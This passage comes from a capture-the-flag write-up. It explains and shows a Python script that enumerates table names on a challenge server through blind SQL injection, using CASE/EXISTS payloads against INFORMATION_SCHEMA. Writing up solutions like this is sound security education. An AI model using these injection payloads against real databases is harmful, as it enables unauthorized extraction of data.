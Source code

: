 Explanation: As we know, all the table names are stored in `INFORMATION_SCHEMA.TABLES`, however it also contains lots of predefined tables, which will heavily affect our search process. To filter out those tables, we can add `table_schema` column and look for tables that have `table_schema = firebird` (that is why we need to find the database name first).

Since we don’t know the exact table name, we would have to use the `LIKE` expression. `LIKE` can search for a specified pattern in a column. For example, if you want to find all tables that start with “UwU”, you could do `table_name = ‘UwU%’`.

Lastly, we use the `EXISTS` expression. If the query returns nothing, then `EXISTS` will return false, otherwise it will return true.

Again, let’s modify our code and run the script:

```python
# Remember to copy the code above in previous code blocks.
# Not writing it here to save space.

terminate_counter = 0 
letter_position = 1
last_ok = get_last_ok()
database_name = ""

while (terminate_counter != len(character_list)):
	terminate_counter = 0
	for char in character_list:
		char_num = ord(char)
		sql_for_flag = '{"ok":"SELECT CASE WHEN EXISTS(SELECT table_name, table_schema FROM INFORMATION_SCHEMA.TABLES WHERE table_name LIKE \'' + database_name + char + '%\' AND table_schema = (\'firebird\')) THEN \'lol\' ELSE exp(1000) END"}'
		flag_response = requests.post('http://chal.firebird.sh:35020/api/ok', cookies=cookies, headers=headers , data=sql_for_flag)
		user_response = requests.post('http://chal.firebird.sh:35020/api/users', cookies=cookies, headers=headers , data=data_for_users)
		user_response = user_response.json()
		new_ok = user_response['tables'][0][0]['lastOk']
		if new_ok != last_ok:
			letter_position += 1
			database_name += char
			last_ok = new_ok
			print(database_name)
			break
		else:
			terminate_counter += 1
print("Done!")
```

### If you run this script, you will realize that the console outputs nothing. Why?

### It turns out the CTF author decided to ban the keyword `WHERE` and `LIMIT`.
